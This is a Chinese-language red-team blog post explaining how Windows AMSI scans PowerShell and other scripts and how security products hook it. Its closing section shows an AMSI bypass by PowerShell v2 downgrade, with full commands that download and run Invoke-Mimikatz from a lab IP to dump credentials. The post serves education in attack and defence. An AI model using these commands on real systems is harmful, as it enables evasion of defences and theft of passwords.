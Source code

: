 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/N1q5YeiXt-8pEZVW4QqM7g)

前几天受到某位红队大佬指点了一波 amsi 接口限制 powershell 脚本的问题, 随即便深知自己的知识面不足，这其实是个很基础的技术点，惭愧，于是便快速学习并产出此文，本文尽力通俗易懂，希望能帮到对这一块不太熟悉的小伙伴。

  

  

  

  

步入正题：

  

  

  

  

微软表示新的机制 AMSI, 能够让利用 Windows 内置 host 脚本隐蔽或混淆的恶意软件无所遁形，基于 AMSI 接口的安全软件能够进行更深层次的监控，为系统提供更深层次的安全防护。安全软件能通过 AMSI 接口扫描文件，内存、数据流等，进行内容源的 URL/IP 认证检查，并采用技术手段识别恶意行为。用户将可以更加方便地对基于动态脚本的恶意软件和其他攻击行为进行防范。  

‍而 AMSI 之所以如此高效的原因就在于，无论代码是否经过了模糊处理，无论代码被混淆到了什么样的程度，当脚本需要在脚本宿主中运行时，它都必须是以清晰的、未经过混淆处理的明文代码形式呈现给脚本宿主的。‍

很多人认为他是负载在 windows defender 的上的，其实他是 win10 提供的相对独立的接口，他是存在于操作系统里面的。

就是这个东西：  

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiaSu2HfoUJvFeJichtYrZHfwvxTeR5le8cD3ApAZel31HKl0FFopic7R9TI56n1eVmtpuxvjPQmEy6g/640?wx_fmt=png)

  

  

  

  

触发他的规则

  

  

  

  

不仅限制于 powershell，我们查阅了微软官方文档发现，还包括了 UAC,VBS 等，基本上对所有的脚本语言做了识别

  

  

  

  

综合流程结构:

  

  

  

  

黑名单机制

首先他其实是一个黑白名单的机制，准确来说是个黑名单，当攻击者有恶意操作时候，他就会提示并 BAN 掉

存放名单的地方

那么任何一种拥有黑白名单的机制的，他的名单都要有存放的地方，amsi 接口默认是在 defender 里调用，所以暂时把他抽象的理解为一份存放着黑名单的数据库吧 (大胆的去理解）

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiaSu2HfoUJvFeJichtYrZHfw8TteGdaHfLsS7ib9W0bZ55reC21aH1llDXSE8FKBWcEhWr6mvYpMTmQ/640?wx_fmt=png)

调用的程序

那么我们要想调用这个名单，得有一个调用的程序   amsi.dll     他是一个 dll 文件，里面有两个用的最多的函数

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiaSu2HfoUJvFeJichtYrZHfwvxTeR5le8cD3ApAZel31HKl0FFopic7R9TI56n1eVmtpuxvjPQmEy6g/640?wx_fmt=png)

在咱们的示例中，PowerShell 将运用 AMSI DLL 导出的函数来扫描用户输入。假如以为无害，则履行用户输入，否则将阻挠履行并记载事件。

**AmsiScanBuffer, 他是****负责决定是否允许运行脚本的函数, 比如** **PowerShell 将在每次要评估任何 PowerShell 脚本时调用此函数**  

=============================================================================================

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiaSu2HfoUJvFeJichtYrZHfwk6NibC6S7jH0oiafibvqZiaIocv2N6XaPtPH1KviaNlpptYIK53bqiaMNcHg/640?wx_fmt=png)  

这个函数的介绍展现了非常详细的一些东西：

他需要你输入内容的名称，包括内容一些指定的值  

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiaSu2HfoUJvFeJichtYrZHfwd3ZicLGib4eNiaI3Sl2bRawA3KVFzl9brHIwZecr3RK5kPouLrAI1z6Og/640?wx_fmt=png)

很明显，他是通过以黑白名单的方式测试你是否存在恶意的行为。

另一个是 AmsiScanString

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiaSu2HfoUJvFeJichtYrZHfw8ym7LBM6BcWeErkCE4wV9w60pr88FMe1CGEmeRTqGiap39cj5z8pcbg/640?wx_fmt=png)

应用的场景

比如打开 powershell，UAC，VBA 的等都是他的场景

不管我们在 powershell 输入什么东西的时候，他都会通过 powershell 去调用 amsi，然后 amsi 再去调用查询，也就是存放黑白名单的库中去找，默认的是 windows10 的 defender，只要你的实时保护是开着的，它默认就会调用 defender 里面存着的的黑名单，相当于他是个数据库，这么牵强的理解也是可以的，中间调用的函数便是 scanbuff

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiaSu2HfoUJvFeJichtYrZHfwmOlHYO1HtibglWXKJQeKbTI7y0tyJ6FQtJIMqACZkEsPryaox7bHNSg/640?wx_fmt=png)

powershell 是通过什么去调用 amsi.dll 的呢？

通过 automation.dll 去调用 amsi.dll,amsi.dll 里面有个函数是 AmsiScanBuffer， PowerShell 将在每次要评估任何 PowerShell 脚本时调用此函数, 用来调用 defender 里面的黑白名单  

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiaSu2HfoUJvFeJichtYrZHfwwVyy5OXym5D3oyYCkoLnwv2ej7v0tE6GuWvVgq7KSFBtQ28xjflIbw/640?wx_fmt=png)

  

  

  

  

调用问题

  

  

  

  

通常第三方的软件，比如 360，火绒等，他们自己写的调用接口，那么就不用调用默认的 dfinder 了, 那么我们可以理解为，把 amsi 的接口接到了 360or 火绒上。

为啥我们装了 360 的电脑，操作 net user 添加用户时候会弹窗告警呢？

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiaSu2HfoUJvFeJichtYrZHfwoPWb7OCicibAIma2pSMZ51K2lJyibDbHZHTSJC2YV1LfFQduPfiaRUJsMQ/640?wx_fmt=png)

那就是因为他和 dfinder 的黑白名单写了不一样的东西，把他们认为具有威胁性的写进了黑名单里面，比如敏感的 powershell 恶意操作, 增加用户的 Add 等等，所以 amsi.dll 最后去调用黑白名单的时候，调用的就是 360or 火绒的，所以他们就会弹窗告警。

  

  

  

  

bypass  amsi

  

  

  

  

强制使用 PowerShell v2 绕过 amsi（前提是 win10 机器需要. net3.0 以上)

如果 PowerShell v2 可用，就用它, 因为版本 2 没有支持 AMSI 的必要内部挂钩

我们用原始 powershell 执行经典的抓密码，可以看到是被 amsi 拦截的

```
Invoke-Mimikatz
```

```
powershell -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://192.168.52.134:6688/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiaSu2HfoUJvFeJichtYrZHfwybUE4shSAribT6714RdQuU90eNIM0mLqPLWkQ3oSmS5mbv611mnUAlw/640?wx_fmt=png)  

```
powershell -Version 2 -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://192.168.52.123:6688/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiaSu2HfoUJvFeJichtYrZHfw17xul2rBMmu6YsefGW2wXYnRrVmGibs8hJxicR5Ev3QOsCTgX0eXnb5Q/640?wx_fmt=png)  

如上图，利用 V2 降级攻击的方式，便不在拦截成功绕过了 amsi 愉快的抓到了密码。  

绕过 amsi 的方式可太多了，例如修改注册表，混淆，更经典的是 DLL 劫持，Hook 等等，以后会专项出一篇绕过 amsi 的方式好文以供大家学习探讨。  

参考：

https://docs.microsoft.com/en-us/windows/win32/api/_amsi/

https://cloud.tencent.com/developer/article/1590511  

总结：

总的来说，AMSI 针对的是那些采用 PowerShell、VBScript、以及 JScript 等语言开发出来的恶意脚本，它可以大大提升恶意脚本的检测准确率，并帮助用户有效地屏蔽这类恶意脚本。在脚本宿主准备运行某一段脚本代码之前，AMSI 便会介入并尝试扫描出代码中潜在的恶意内容。但也不是不可绕过，绕过 AMSI 一直都是渗透师们热门话题。

有啥问题欢迎私聊，文章有问题欢迎斧正！声明: 文章初衷仅为攻防研究学习交流之用，严禁利用相关技术去从事一切未经合法授权的入侵攻击破坏活动，因此所产生的一切不良后果与本文作者及该公众号无关

分享收藏点赞在看